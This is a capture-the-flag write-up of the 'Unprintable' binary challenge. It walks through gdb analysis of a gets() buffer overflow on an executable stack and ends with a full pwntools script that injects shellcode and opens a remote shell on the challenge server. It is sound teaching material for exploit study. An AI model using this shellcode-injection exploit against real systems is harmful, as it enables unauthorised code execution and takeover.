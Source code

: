 ```yaml
---
title: "OSU League 2020/2021 - Unprintable Writeup"
date: 2020-10-30
tags:
  - osuleague
  - ctf
  - security
---
```


We are given a binary, so let's see what it does:
```
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7ffd617472f0
What are you going to do with it?
I wanna consume it
I hope you enjoyed your memory!
```

Hmm, looks like we are given a memory address along with a place to put some text.  Usually with challenges like these, the memory address given is the address of the buffer, we can verify this in a bit, but for now lets look at what securities the binary has using `pwn checksec unprintable`:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Hmm, NX is disabled, meaning the stack is excecutable.  That means we can probably excecute shellcode on the stack.  Now let's open up the binary in gdb and see what's going on.

Running `info functions`, we get a list of the functions used in the program.  Its seems like the `input` function is the one we are looking for, so let's disassemble that.

```
gdb-peda$ disass input
Dump of assembler code for function input:
   0x00000000000006ca <+0>:	push   rbp
   0x00000000000006cb <+1>:	mov    rbp,rsp
   0x00000000000006ce <+4>:	sub    rsp,0x70
   0x00000000000006d2 <+8>:	lea    rax,[rbp-0x70]
   0x00000000000006d6 <+12>:	mov    rsi,rax
   0x00000000000006d9 <+15>:	lea    rdi,[rip+0xf8]        # 0x7d8
   0x00000000000006e0 <+22>:	mov    eax,0x0
   0x00000000000006e5 <+27>:	call   0x590 <printf@plt>
   0x00000000000006ea <+32>:	lea    rdi,[rip+0x117]        # 0x808
   0x00000000000006f1 <+39>:	call   0x580 <puts@plt>
   0x00000000000006f6 <+44>:	lea    rax,[rbp-0x70]
   0x00000000000006fa <+48>:	mov    rdi,rax
   0x00000000000006fd <+51>:	mov    eax,0x0
   0x0000000000000702 <+56>:	call   0x5a0 <gets@plt>
   0x0000000000000707 <+61>:	nop
   0x0000000000000708 <+62>:	leave  
   0x0000000000000709 <+63>:	ret    
End of assembler dump.
```
We can set a breakpoint right before the leave instruction to get a view of the stack right before returning.

```
gdb-peda$ break *input+61
Breakpoint 1 at 0x707
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week3/unprintable
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7fffffffde60
What are you going to do with it?
gimme cookies

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde60 ("gimme cookies")
RBX: 0x0
RCX: 0x7ffff7dcfa00 --> 0xfbad2288
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x6f6f6320656d6d69 ('imme coo')
RDI: 0x7fffffffde61 ("imme cookies")
RBP: 0x7fffffffded0 --> 0x7fffffffdee0 --> 0x555555554750 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffde60 ("gimme cookies")
RIP: 0x555555554707 (<input+61>:	nop)
R8 : 0x55555575667e --> 0x0
R9 : 0x7ffff7fe04c0 (0x00007ffff7fe04c0)
R10: 0x555555756010 --> 0x0
R11: 0x246
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdfc0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

Sweet!  Looks like the address given is indeed the start of our buffer. Now to figure out how big that buffer is.  We can run it again, and this time lets look at the stack frame and calculate the offset of the saved rip and the address leak we were given.

```
Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
```

Subracting these two we end up getting a buffer that is 120 bytes.  So now we have everything we need to craft our exploit!

I used pwntools to craft the exploit, as it streamlines many things such as creating shellcode, connecting to a remote binary, etc.  

```python
from pwn import *
io = remote('ctf.ropcity.com', 31337)
#io = process("./unprintable")
#io = gdb.debug("./unprintable")
context.update(arch='amd64', os='linux')

io.recvuntil("birthday!: ")

address = int(io.recvline()[2:-1], 16)
shell = shellcraft.sh()
shellcode = asm(shell)
payload = shellcode.ljust(120, b'A')
payload += p64(address)

io.recvuntil("What are you going to do with it?")
io.sendline(payload)

io.interactive()
```

And running it we get a shell!!!

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] Switching to interactive mode
$ cat flag
osu{i_c0uldnt_pr1nt_th4t_1f_I_tRi3ed!!!1!}
```

Woot! Learned a lot about getting shellcode working in pwntool, as well as using ljust to fill the buffer.  Super fun challenge!

